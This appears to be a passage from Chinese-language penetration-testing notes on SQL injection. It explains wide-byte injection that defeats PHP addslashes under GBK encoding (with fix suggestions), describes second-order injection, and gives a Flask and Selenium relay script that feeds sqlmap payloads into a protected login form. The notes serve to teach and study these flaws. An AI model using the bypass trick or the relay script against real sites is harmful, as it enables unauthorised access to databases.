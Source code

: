 [DNSlog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)

## 宽字节注入(过滤了单引号)

> 在数据库中使用了宽字符集(GBK，GB2312等)，除了英文都是一个字符占两字节；
>
> MySQL在使用GBK编码的时候，会认为两个字符为一个汉字(ascii>128才能达到汉字范围)；
>
> 在PHP中使用`addslashes`函数的时候，会对单引号%27进行转义，在前边加一个反斜杠”\”，变成%5c%27;
>
> 可以在前边添加%df,形成%df%5c%27，而数据进入数据库中时前边的%df%5c两字节会被当成一个汉字;
>
> %5c被吃掉了，单引号由此逃逸可以用来闭合语句。

使用PHP函数`iconv('utf-8','gbk',$_GET['id'])`,也可能导致注入产生 

**修复建议：**

> （1）使用mysqli_set_charset(GBK)指定字符集
>
> （2）使用mysqli_real_escape_string进行转义

## 二阶注入

> 当数据首次插入到数据库中时，许多应用程序能够安全处理这些数据；addslashes() 等字符转义函数。
>
> 一旦数据存储在数据库中，随后应用程序本身或其它后端进程可能会以危险的方式处理这些数据。
>
> 许多这类应用并不像面向因特网的主要应用程序一样安全，却拥有较高权限的数据库账户。

第一次HTTP请求是精心构造的，为第二次HTTP请求触发漏洞做准备。

[使用Burp和自定义Sqlmap Tamper利用二次注入漏洞](https://www.freebuf.com/articles/web/142963.html)

## 中转注入

> 当网站做了token保护或js前端加密的情况下；
>
> 对于这些站点当手工发现了注入点，但并不适用于用sqlmap等工具跑，可以做中转注入；
>
> 本地起个Server，然后用sqlmap扫这个server，Server接收到payload后加到表单中提交。

**Python+selenium做中转注入**

```python
from flask import Flask
from flask import request
from selenium import webdriver
driver_path = "C:/Users/Administrator/AppData/Local/Programs/Python/Python37/Lib/site-packages/selenium/webdriver/chrome/chromedriver.exe"
chrome = webdriver.Chrome(driver_path)
chrome.get("http://127.0.0.1")#目标注入点
app = Flask(__name__)

def send(payload):
#起到中转payload效果。
  chrome.find_element_by_id("username").send_keys(payload) #把payload填到有注入点的地方
  chrome.find_element_by_id("password").send_keys("aaaa")
  chrome.find_element_by_id("submit").click()
  return "plase see flask server!" #随便返回一下不重要

@app.route('/')
def index():
    # 接收sqlmap传递过来的payload
    payload = request.args.get("payload")
    return send(payload)
```